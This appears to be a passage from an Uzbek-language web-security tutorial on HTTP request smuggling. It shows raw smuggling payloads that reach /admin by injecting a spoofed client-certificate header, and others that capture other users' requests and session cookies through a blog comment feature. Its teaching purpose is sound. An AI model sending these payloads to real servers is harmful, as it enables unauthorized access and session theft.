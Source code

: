 Ushbu headerlar foydalanuvchilardan butunlay yashirin bo'lishi kerakligi sababli, ko'pincha backend serverlar bu headerlarga shuhasiz ishoniladi. Bundan taxmin qilish mumkinki siz to'g'ri berilgan headerlar va qiynatlar orqali access control (kirish nazoratini) aylanib o'tishingiz mumkin.

Amalda, bu harakatlar odatda ishlatilmaydi, chunki agar bu headerlar allaqachon mavjud bo'lsa fron-end serverlar bu headerlarni qayta yozishga moyil. Biroq, smuggled requestlar uni front-end'dan to'liq yashiradi, shuning uchun ulardagi barcha header back-endga o'zgarishsiz boradi.

```http
Host: vulnerable-website.com
Content-Type: x-www-form-urlencoded
Content-Length: 64
Transfer-Encoding: chunked

0

GET /admin HTTP/1.1
X-SSL-CLIENT-CN: administrator
Foo: x
```

## Boshqa foydalanuvchilarning so'rovlarini yozib olish. <a href="#boshqa-foydalanuvchilarning-sorovlarini-qolga-kiritish" id="boshqa-foydalanuvchilarning-sorovlarini-qolga-kiritish"></a>

Agar veb-sayt matnli ma'lumotlarni saqlash va olish imkonini beruvchi har qanday funksiyani o'z ichiga olsa, HTTP Request Smuggling orqali boshqa foydalanuvchilarning so'rovlarini qo'lka kiritish mumkin. Bunda ko'pincha sessiya tokenlarni, sessiyalarni o'g'irlash yoki foydalanuvchi tomonidan yuborilgan biror maxfiy ma'lumotlarni qo'lga kiritish mumkin. Ushbu xujumni amalga oshirish izohlar, emaillar, profil ma'lumotlari va hokazolar vosita bo'lishi mumkin.

So'rovda oxirgi joylashtirilgan ma'lumotlarni o'z ichiga olgan parametr bilan saqlash funksiyasiga ma'lumotlarni yuboradigan so'rovni yashirincha olib o'tishingiz kerak. Back-end server tomonidan qayta ishlanadigan keyingi so'rov yashirin(smuggle) so'rovga qo'shiladi, natijada boshqa foydalanuvchining qayta ishlanmagan so'rovi saqlanadi.

Faraz qilaylik, websayt blogda saqlanadigan va ko‘rsatiladigan blog postga izoh yuborish uchun quyidagi so‘rovdan foydalanadi:

```http
POST /post/comment HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 154
Cookie: session=BOe1lFDosZ9lk7NLUpWcG8mjiwbeNZAO

csrf=SmsWiwIJ07Wg5oqX87FfUVkMThn9VzO0&postId=2&comment=My+comment&name=Carlos+Montoya&email=carlos%40normal-user.net&website=https%3A%2F%2Fnormal-user.net
```

Maʼlumotlarni saqlash soʻrovini back-end serverga olib oʻtuvchi quyidagi request smuggling hujumini amalga oshirishingiz mumkin:

```http
GET / HTTP/1.1
Host: vulnerable-website.com
Transfer-Encoding: chunked
Content-Length: 324

0

POST /post/comment HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 400
Cookie: session=BOe1lFDosZ9lk7NLUpWcG8mjiwbeNZAO
```